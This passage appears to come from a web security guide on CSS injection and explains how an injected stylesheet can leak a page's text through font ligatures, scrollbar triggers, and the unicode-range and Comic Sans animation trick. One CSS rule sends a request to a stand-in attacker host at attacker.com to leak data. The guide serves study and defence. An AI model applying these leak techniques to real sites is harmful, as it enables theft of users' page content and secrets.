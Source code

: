```
       white-space: nowrap;
     }
     body::-webkit-scrollbar {
       background: blue;
     }
     body::-webkit-scrollbar:horizontal {
       background: url(http://attacker.com/?leak);
     }
     ```

3. **Exploit Process**:

   - **Step 1**: Fonts are created for pairs of characters with substantial width.
   - **Step 2**: A scrollbar-based trick is employed to detect when the large width glyph (ligature for a character pair) is rendered, indicating the presence of the character sequence.
   - **Step 3**: Upon detecting a ligature, new glyphs representing three-character sequences are generated, incorporating the detected pair and adding a preceding or succeeding character.
   - **Step 4**: Detection of the three-character ligature is carried out.
   - **Step 5**: The process repeats, progressively revealing the entire text.

4. **Optimization**:
   - The current initialization method using `<meta refresh=...` is not optimal.
   - A more efficient approach could involve the CSS `@import` trick, enhancing the exploit's performance.

### Text node exfiltration (II): leaking the charset with a default font (not requiring external assets) 

**Reference:** [[https://demo.vwzq.net/css2.html|PoC using Comic Sans by @Cgvwzq & @Terjanq]]

This trick was released in this [[https://www.reddit.com/r/Slackers/comments/dzrx2s/what_can_we_do_with_single_css_injection/|**Slackers thread**]]. The charset used in a text node can be leaked **using the default fonts** installed in the browser: no external -or custom- fonts are needed.

The concept revolves around utilizing an animation to incrementally expand a `div`'s width, allowing one character at a time to transition from the 'suffix' part of the text to the 'prefix' part. This process effectively splits the text into two sections:

1. **Prefix**: The initial line.
2. **Suffix**: The subsequent line(s).

The transition stages of the characters would appear as follows:

**C**\
ADB

**CA**\
DB

**CAD**\
B

**CADB**

During this transition, the **unicode-range trick** is employed to identify each new character as it joins the prefix. This is achieved by switching the font to Comic Sans, which is notably taller than the default font, consequently triggering a vertical scrollbar. This scrollbar's appearance indirectly reveals the presence of a new character in the prefix.

Although this method allows the detection of unique characters as they appear, it does not specify which character is repeated, only that a repetition has occurred.

> [!TIP]
```